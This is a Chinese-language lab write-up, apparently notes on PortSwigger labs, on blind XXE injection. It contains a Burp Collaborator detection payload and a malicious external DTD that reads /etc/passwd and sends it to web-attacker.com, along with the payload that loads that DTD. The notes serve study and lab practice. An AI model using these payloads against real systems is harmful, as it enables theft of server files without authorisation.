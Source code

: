 <hr/>
part2:
XXE注入
BP---BC客户端---“Copy to clipboard”负载复制到剪贴板（客户端窗口保持打开状态）


<pre>`6bivukzadf4nrcnuu14gcp6kibo1cq.burpcollaborator.net`</pre>
在XML声明和stockCheck元素之间插入以下外部实体定义
<pre><code>&lt;!DOCTYPE stockCheck [&lt;!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"&gt; %xxe; ]&gt;



我的是：
&lt;!DOCTYPE stockCheck [&lt;!ENTITY % xxe SYSTEM "http://6bivukzadf4nrcnuu14gcp6kibo1cq.burpcollaborator.net"&gt; %xxe; ]&gt;

</code></pre>


<br/> 转到Collaborator选项卡，刷新看到一些DNS和HTTP交互，这些交互是应用程序由于负载而启动的







---


> 
<h3>4、利用盲XXE将数据渗透到带外</h3>
1、通过带外技术检测一个隐蔽的XXE漏洞是非常好的，但它实际上并不能证明该漏洞是如何被利用的。攻击者真正想要实现的是泄露敏感数据。这可以通过隐蔽的XXE漏洞实现，但它涉及攻击者在其控制的系统上托管恶意DTD，然后从带内XXE有效负载内调用外部DTD。
<pre><code>一个恶意DTD的示例，该DTD可用于泄漏/etc/passwd文件的内容：
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY &amp;#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'&gt;"&gt;
%eval;
%exfiltrate;

此DTD执行以下步骤：
    1、定义名为的XML参数实体file，包含的内容/etc/passwd文件。
    2、定义名为的XML参数实体eval，包含另一个XML参数实体的动态声明，该实体名为exfiltrate。该exfiltrate将通过向攻击者的Web服务器发出包含file URL查询字符串中的实体。
    3、使用eval实体的动态声明，它将导致exfiltrate要执行的实体。
    4、使用exfiltrate实体，以便通过请求指定的URL来计算其值。</code></pre>
2、然后攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到自己的Web服务器上。
<pre><code>例如，攻击者可能在以下URL提供恶意DTD：
http://web-attacker.com/malicious.dtd</code></pre>
3、最后攻击者必须向易受攻击的应用程序提交以下XXE有效负载：
<pre><code>&lt;!DOCTYPE foo [&lt;!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"&gt; %xxe;]&gt;</code></pre>
4、这个XXE有效负载声明了一个名为xxe的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD并内联解释它。然后执行恶意DTD中定义的步骤，并将/etc/passwd文件传输到攻击者的服务器。
<hr/>
5、此技术可能不适用于某些文件内容，包括/etc/passwd文件中包含的换行符。因为一些XML解析器使用API来获取外部实体定义中的URL，该API验证允许出现在URL中的字符。在这种情况下，可以使用FTP协议代替HTTP。有时无法过滤包含换行符的数据，因此可以将目标改为/etc/hostname之类的文件<br/>  
<hr/>
6、涉及实验：<br/> 实验5：利用XXE盲注使用恶意外部DTD泄漏数据
